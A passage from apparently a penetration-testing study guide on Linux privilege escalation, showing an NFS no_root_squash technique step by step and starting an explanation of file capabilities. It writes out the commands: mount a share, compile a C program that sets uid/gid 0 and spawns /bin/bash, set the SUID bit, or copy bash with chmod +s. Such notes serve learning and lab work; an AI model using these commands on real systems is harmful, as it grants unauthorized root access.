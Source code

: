             -   mkdir /tmp/nfsdir \# create dir

            -   mount -t nfs 10.10.10.10:/shared /tmp/nfsdir \# mount directory

            -   cd /tmp/nfsdir

        -   Exploit by drop that code in the mount folder

            -   echo \'int main() { setgid(0); setuid(0); system(\"/bin/bash\"); return 0; }\' \> /tmp/nfsdir/suid-shell.c

            -   gcc suid-shell.c -o suid-shell \#compile

            -   chmod +s suid-shell \# set suid permission

        -   Another exploit method

            -   cp /bin/bash .

            -   chmod +s bash

    -   On the target machine, as any non-privileged user, we run the executable program and get root.

-   **Capabilities** </br>
![capabilities](images/capabilities.png)

    -   **What is capabilities**

        -   are binaries or programs that has some high privilege but no full privileges Ex Think of your smartphone,. When you install an application from the App/Play store, you're granted a list of permissions before installing it. You may even be prompted when you're using it for some specific intrusive permission, such as location detection.  This is a little bit like what capabilities are for. Rather than granting a file full root privileges when ran with a SUID bit or sudo, we can instead give it specific powers. and privileges

        -   **set capability to file**

